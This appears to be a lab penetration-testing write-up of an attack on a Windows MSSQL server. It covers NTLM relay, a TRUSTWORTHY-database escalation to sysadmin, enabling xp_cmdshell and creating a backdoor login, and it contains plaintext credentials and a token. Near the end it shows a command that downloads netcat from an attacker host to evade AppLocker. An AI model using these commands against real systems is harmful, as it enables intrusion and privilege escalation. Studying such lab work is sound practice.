Same here we can run the NMAP to check the server.

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 64
1433/tcp  open  ms-sql-s      syn-ack ttl 64 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.9.40.201\SQLEXPRESS: 
|     Target_Name: inception
|     NetBIOS_Domain_Name: inception
|     NetBIOS_Computer_Name: INWKT002
|     DNS_Domain_Name: inception.local
|     DNS_Computer_Name: inwkt002.inception.local
|     DNS_Tree_Name: inception.local
|_    Product_Version: 10.0.19041
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-24T03:35:33
| Not valid after:  2054-06-24T03:35:33
| MD5:   7b8c:c725:bc0a:2e86:6318:1dd3:dd85:b949
| SHA-1: dee8:5bf7:c247:206a:1e21:a65c:8f83:14b2:53ec:176c
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQUNPx7D8qyrNNcDcH1H+1CTANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjQwNjI0MDMzNTMzWhgPMjA1NDA2MjQwMzM1MzNaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBANCyTJ4e
| H+9KKqKtd4XpVNLeIvRlqWZtspKl0xXy/hs8V80amYwdrWwVCEeG1MnL0SyuT0pT
| IRTqBfmtLqpQDUQ4/fArH3IUXJVWoFYnKuUjzEqQdlbdm7LNO4bBRWUAD5mGDxyP
| w/6UuMqGLDdgg1iksUfWv4Qe19aJ1YBL/Nd7qJhuoDn4b36G5Wa4eu6u9QIEtOoD
| oGY50Z2LQVyQyoFQUBv2emlT9Bbuu0doPgY6728oSxq/sGGCYQk3yPnF4YLvB7MK
| l2WzBGMIjzB6vJwcYYkiozOBxSEyOAZNMxggTAfVF3Ufgb6WUrEIQnviuv/9nhOX
| PCNygPu/kbhym60CAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAwI7zAtXLHrFOcZMG
| ou4CJLOIC3arQWTIIqGpwSPhvkfNnQJRpnL8QACFeD9n08mJlZIM9/bvVDhm9AVU
| fngenk2F5MaqST7QVTz/xnwqAyAPfJpIoTkEk1Vevt941RfjzQ39etpT4e2tjqb0
| pravmjROQtAWfQUJk3Of0LaCrz5xY2SBpELzyf5e+bmEsd9Nozqku4BOb3Ao5Ujl
| yDJL1ngt6KKwZUqrdxUNbPkHHbOpWWMR3DTuy6+SsTIo6y7oSZtGiiy+hGgL3kgU
| YNObdczLzt817PQdOBQGCCyFh+YcM+OKWA2UdHeaGVYJ1hkUmCfFyudZQ66BtWfC
| R8RTwg==
|_-----END CERTIFICATE-----
| ms-sql-info: 
|   10.9.40.201\SQLEXPRESS: 
|     Instance name: SQLEXPRESS
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|     TCP port: 1433
|     Named pipe: \\10.9.40.201\pipe\MSSQL$SQLEXPRESS\sql\query
|_    Clustered: false
|_ssl-date: 2024-06-24T16:38:37+00:00; +4s from scanner time.
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: inception
|   NetBIOS_Domain_Name: inception
|   NetBIOS_Computer_Name: INWKT002
|   DNS_Domain_Name: inception.local
|   DNS_Computer_Name: inwkt002.inception.local
|   DNS_Tree_Name: inception.local
|   Product_Version: 10.0.19041
|_  System_Time: 2024-06-24T16:37:58+00:00
|_ssl-date: 2024-06-24T16:38:37+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=inwkt002.inception.local
| Issuer: commonName=inwkt002.inception.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-23T03:35:22
| Not valid after:  2024-12-23T03:35:22
| MD5:   0e52:d830:2adc:1873:9a85:b785:2906:7baa
| SHA-1: 4d2c:063d:a385:4268:82dd:12e0:4271:24d5:4fe3:dab3
| -----BEGIN CERTIFICATE-----
| MIIC9DCCAdygAwIBAgIQHfoj81u504xNjuEEj4N8KjANBgkqhkiG9w0BAQsFADAj
| MSEwHwYDVQQDExhpbndrdDAwMi5pbmNlcHRpb24ubG9jYWwwHhcNMjQwNjIzMDMz
| NTIyWhcNMjQxMjIzMDMzNTIyWjAjMSEwHwYDVQQDExhpbndrdDAwMi5pbmNlcHRp
| b24ubG9jYWwwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC4i+sl0mPn
| 9ot1c5BCng+n/057hghHTJrw8qv80UpRtwZjXvd4tUZsSsLT+aCl5cvEzSe7WdVA
| lN7zBXNlu5JV7MWFvcTzblAuXfFxZ/Iogdu6rl6QFmA5IKpVTiclUZaaXSvxeM7x
| o1Od3fEWjdvgAZ4xGG/jlCYn0WXfyEs8kwRIEi0S8BjHgxlXtNFX4J2+HouXxTui
| BrQ/m3GLEGjgoJClyJB5Vy8kSotVvhxV6HwNSyhr1BaSUuE0KMvg4+sJ8zie3id7
| TZLGNki1YWfPebBAiAVl5SL9L1pdiLVWus90S/pRnkhNlRBfzbPrHDTOzHOuTb16
| yx3Lm3f3MovpAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQE
| AwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAGVVsKIquO5akwsateMmbcHInUUH1ltT6
| hNbLhKIAEceqFCXqZ4Q7mp3DDXtMtTzYn97QQBU5+4+5C1yjp3nSrrYJN4RJvM3f
| YSEZ+3YcsfTpTt9bb/RV0/0degmIsYtarbQuU40AlkOSXmSPSWNRdhGp+kObnHlo
| rvNCwqxY3tAnpV/zEes3V/UtYg39sXl7ODQZmgjdajdfJ4PxFunk0r109QWUJRQo
| PtA9TNryOfiByJSO3qMigT3Zv9KEV+3ADKNhHOqM8qD+JoENmIaDzepxPjP0Esbr
| HwwzZY9O1pef9iMjyUaXeqIH8VYO6f/T4zcM45lFBloZ399ziFFCVA==
|_-----END CERTIFICATE-----
5040/tcp  open  unknown       syn-ack ttl 64
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49688/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
50930/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/24%OT=135%CT=%CU=%PV=Y%G=N%TM=6679A10A%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=102%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

&nbsp;

# SMB

I don't see strange shares:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/d3v.local]
└─# NetExec smb 10.9.40.201 -u "Administrator" -p '9ze9wL0C!3' -d "cyber.local" --shares
SMB         10.9.40.201     445    INWKT002         [*] Windows 10 / Server 2019 Build 19041 x64 (name:INWKT002) (domain:inception.local) (signing:True) (SMBv1:False)
SMB         10.9.40.201     445    INWKT002         [+] cyber.local\Administrator:9ze9wL0C!3 
SMB         10.9.40.201     445    INWKT002         [*] Enumerated shares
SMB         10.9.40.201     445    INWKT002         Share           Permissions     Remark
SMB         10.9.40.201     445    INWKT002         -----           -----------     ------
SMB         10.9.40.201     445    INWKT002         ADMIN$                          Remote Admin
SMB         10.9.40.201     445    INWKT002         C$                              Default share
SMB         10.9.40.201     445    INWKT002         IPC$            READ            Remote IPC
```

&nbsp;

# NTLM Relay

From the hash we found from the internal VPN now we have relied and we have access to the MSSQL as svc_inventory!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# proxychains impacket-mssqlclient INCEPTION/SVC_INVENTORY@10.9.40.201 -windows-auth
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

Password:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.9.40.201:1433  ...  OK
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: Inventory_Dev
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(INWKT002\SQLEXPRESS): Line 1: Changed database context to 'Inventory_Dev'.
[*] INFO(INWKT002\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (inception\svc_inventory  inception\svc_inventory@Inventory_Dev)>
```

And we have a custom db:

```
SQL (inception\svc_inventory  inception\svc_inventory@Inventory_Dev)> SELECT name FROM master.dbo.sysdatabases;
name            
-------------   
master          

tempdb          

model           

msdb            

Inventory_Dev   

SQL (inception\svc_inventory  inception\svc_inventory@Inventory_Dev)>
```

Seems like void?

```
SQL (inception\svc_inventory  inception\svc_inventory@Inventory_Dev)> SELECT * FROM Inventory_Dev.INFORMATION_SCHEMA.TABLES;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE   
-------------   ------------   ----------   ----------   
SQL (inception\svc_inventory  inception\svc_inventory@Inventory_Dev)>
```

Then I decided to test if I can see the shares and apparently I can't madame!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# proxychains impacket-smbclient INCEPTION/SVC_INVENTORY@10.9.40.201
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

Password:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.9.40.201:445  ...  OK
Type help for list of commands
# ls
[-] No share selected
# sh
shares  shell   
# shares
[-] SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
# shell
[proxychains] DLL init: proxychains-ng 4.17

# shares
[-] SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
# exit
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# proxychains impacket-smbclient INCEPTION/SVC_INVENTORY@10.9.40.12 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

Password:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.9.40.12:445  ...  OK
Type help for list of commands
# shares
[-] SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
# 
# exit
```

This mean we need to use the MSSQL path!

And seems like not much can do so far. No XP_CMDSHELL, no linked server, no other crap.

But i see this:

```
SQL (inception\svc_inventory  inception\svc_inventory@Inventory_Dev)> enum_db
name            is_trustworthy_on   
-------------   -----------------   
master                          0   

tempdb                          0   

model                           0   

msdb                            1   

Inventory_Dev                   1
```

And seems like we are db_owner of the DB:

```
SQL (inception\svc_inventory  inception\svc_inventory@Inventory_Dev)> enum_users

UserName                  RoleName   LoginName                 DefDBName       DefSchemaName       UserID                                                           SID   
-----------------------   --------   -----------------------   -------------   -------------   ----------   -----------------------------------------------------------   
dbo                       db_owner   sa                        master          dbo             b'1         '                                                         b'01'   

guest                     public     NULL                      NULL            guest           b'2         '                                                         b'00'   

inception\svc_inventory   db_owner   inception\svc_inventory   Inventory_Dev   dbo             b'5         '   b'01050000000000051500000043e8e0e9c49b981fbfe0a0c26b060000'   

INFORMATION_SCHEMA        public     NULL                      NULL            NULL            b'3         '                                                          NULL   

sys                       public     NULL                      NULL            NULL            b'4         '                                                          NULL
```

This might allow us to get SA? We are owner of a Trustworthy DB

First we need to create a Stored procedure that makes our user sysadmin on the trustworthy DB:

```
SQL (inception\svc_inventory  guest@master)> use Inventory_Dev
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: Inventory_Dev
[*] INFO(INWKT002\SQLEXPRESS): Line 1: Changed database context to 'Inventory_Dev'.
SQL (inception\svc_inventory  inception\svc_inventory@Inventory_Dev)> CREATE PROCEDURE sp_elevate_me WITH EXECUTE AS OWNER AS EXEC sp_addsrvrolemember 'inception\svc_inventory', 'sysadmin'
```

And now when we call it we are part of Sysadmins:

```
SQL (inception\svc_inventory  inception\svc_inventory@Inventory_Dev)> EXEC sp_elevate_me
SQL (inception\svc_inventory  dbo@Inventory_Dev)> SELECT is_srvrolemember('sysadmin')
    
-   
1
```

And now should be pretty easy to enable the XP_CMSHELL and gain a RCE. From here I suspect we can run Godpotato to impersonate!

But will do it tomorrow cause now it's late!

&nbsp;

# The next morning

Now I had to catch back but beeing part of Sysadmins now means we get to enable the XP_CMDSHELL stored procedure:

```
SQL (inception\svc_inventory  dbo@Inventory_Dev)> enable_xp_cmdshell
[*] INFO(INWKT002\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(INWKT002\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (inception\svc_inventory  dbo@Inventory_Dev)>
```

And now we should be able to gain rce?

```
QL (inception\svc_inventory  dbo@Inventory_Dev)> xp_cmdshell "whoami"
output                
-------------------   
inception\svc_mssql   

NULL                  

SQL (inception\svc_inventory  dbo@Inventory_Dev)> xp_cmdshell "hostname"
output     
--------   
inwkt002   

NULL       

SQL (inception\svc_inventory  dbo@Inventory_Dev)>
```

Nice it works and I see this svc_inventory have impersonation tokens!



I will use one of the DC on M3.local domain as carrier for the NC listener.



Seems like the defender is messing up?

I will try to add a new local SA so I can use a MSSQL studio instead.

```
SQL (inception\svc_inventory  dbo@Inventory_Dev)> CREATE LOGIN yovecio WITH PASSWORD = 'Coglione1!'
SQL (inception\svc_inventory  dbo@Inventory_Dev)> EXEC sp_addsrvrolemember 'yovecio', 'sysadmin'
```



And it works!



Now let's see if I can run xp_cmdshell anyway



It works, so now I can kill the extra vpn on the side. I see a strange folder called DevOps?



And another user Robert.Martinez that could allow us to move forward?



But I see some information about Gitlab? I am wondering if there are any flags here? I don't want to bypass the AV so maybe the intended way it is not to get NTSystem here?



```
Access Token: sgvzNuXEiz48geasgxBD

To Do:
1. Play with API and pipeline features
```

Even by using Invoke-ConPtyshell I get blocked by defender:



And even if hypotetically i could bypass this and gain a shell, I still need to bypass the defender for mimilatz.exe and other stuff which makes me wonder if we could move forward instead?

But before if I check that "Robert.Martinez@inception.local" I see he is part of the DevOps group:



That might be a bummer?

But then I got a tips to save into /windows/task to bypass potential Applocker:

```
xp_cmdshell "powershell.exe IWR http://10.9.20.13:8080/nc64.exe -Outfile C:\Windows\tasks\nc.exe"
```

